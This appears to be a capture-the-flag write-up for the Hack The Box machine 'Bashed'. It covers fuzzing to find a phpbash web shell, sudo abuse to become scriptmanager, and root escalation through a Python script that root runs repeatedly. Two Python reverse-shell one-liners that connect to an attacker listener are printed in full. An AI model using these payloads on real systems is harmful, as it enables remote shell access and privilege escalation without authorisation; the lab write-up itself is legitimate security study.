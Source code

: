 Bahed - HTB Writeup 

![top](images/bashed/top-bash.png)

The bashed was a simple the box that was already running a webshell then the privileges were escalated by python script.   
The nmap scan revealed the only port 80 with no ssh which is unsusual.  
I opened the site at http and creator of the site has disclosed the information that he incorporated phpbash on this site.  
So i fuzzed directories and appended phpbash.php and found its location at /dev. So there goes the user flag.   

![fuzz](images/bashed/fuzzz-bash.png)
 
![bash](images/bashed/phpbash-bash.png)


Then i attempted to get reverse shell to my own machine however using basic bash syntax didnt work for some reason.  
Then chatgpt gave me this fuckass long python command to get reverse shell and it worked.    
  
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  

After running sudo -l i found out that i can become the scriptmanager user and run scripts with his priveleges.

![scriptm](images/bashed/scriptmanager-bash.png)

So i became one.

![sudo](images/bashed/user-bash.png)

Then i discovered scripts directory in root dir that is owned by the scriptmanager.
There was python program and file generated by this python program.
When i deleted this file it came back meaning that the python program was executed repeatedly.

![sdsd](images/bashed/sudo-bash.png)

So what i did was i created new python file where i inserted the fuckass long shell from earlier and BANG i got a new session running as root on second listening port.
echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9002)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);' > execute.py


![root](images/bashed/root-bash.png)

The reason this worked was that python file was being executed by root.

![bot](images/bashed/bottom-bash.png)

